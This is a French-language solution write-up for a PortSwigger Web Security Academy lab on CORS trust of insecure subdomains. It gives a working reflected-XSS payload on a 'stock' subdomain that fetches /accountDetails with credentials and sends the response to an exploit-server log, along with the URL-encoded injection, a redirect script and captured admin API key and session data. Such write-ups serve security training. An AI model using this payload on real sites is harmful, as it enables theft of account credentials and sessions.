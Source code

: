# Lab

https://portswigger.net/web-security/cors/lab-breaking-https-attack

## Solution

Le site possède un CORS sur les sous domaines du lab.

En parcourant le site on peut voir que la vérification des stock d'un produit se fait sur le sous domaine `stock` du lab.

Par exemple : `http://stock.0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/?productId=1&storeId=1`

En jouant avec cette requête on observe que le paramètre `productId` est vulnérable à une XSS puisqu'il est réfléchi dans la page.

On peut donc injecter un script qui va envoyer une requête CORS sur le sous domaine `stock` pour récupérer le stock du produit 1.

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='//exploit-0a6100ef04d4d3a28206aa22016000d2.exploit-server.net/logs?x='+this.responseText;
    };
</script>
```

`http://stock.0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3evar+req+%3d+new+XMLHttpRequest()%3breq.onload+%3d+reqListener%3breq.open('get','https%3a//0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/accountDetails',true)%3breq.withCredentials+%3d+true%3breq.send()%3bfunction+reqListener()+{+location%3d'//exploit-0a6100ef04d4d3a28206aa22016000d2.exploit-server.net/logs%3fx%3d'%2bthis.responseText%3b}%3b%3c%2f%73%63%72%69%70%74%3e&storeId=1`

On a plus qu'à créer une redirection vers cette URL dans l'exploit serveur pour récupérer les informations de l'admin.

```html
<script>
    window.location = "http://stock.0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/?productId=%3c%73%63%72%69%70%74%3evar+req+%3d+new+XMLHttpRequest()%3breq.onload+%3d+reqListener%3breq.open('get','https%3a//0afb00b60443d3b78243ab8b006b009d.web-security-academy.net/accountDetails',true)%3breq.withCredentials+%3d+true%3breq.send()%3bfunction+reqListener()+{+location%3d'//exploit-0a6100ef04d4d3a28206aa22016000d2.exploit-server.net/logs%3fx%3d'%2bthis.responseText%3b}%3b%3c%2f%73%63%72%69%70%74%3e&storeId=1";
</script>
```

Et on voit dans les logs :

`10.0.4.211      2023-10-08 23:10:44 +0000 "GET /logs?x={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22eweuQPv9dDaNKsUM7rF3Bjk7XOxN5en5%22,%20%20%22sessions%22:%20[%20%20%20%20%22Sk6GLuVI8CZd9PXnjo3XlFH6bbiIsRt4%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36"`

Soit en JSON propre :

```json
{
  "username": "administrator",
  "email": "",
  "apikey": "eweuQPv9dDaNKsUM7rF3Bjk7XOxN5en5",
  "sessions": [
    "Sk6GLuVI8CZd9PXnjo3XlFH6bbiIsRt4"
  ]
}
```

On a plus qu'à submit le challenge avec l'apikey de l'admin.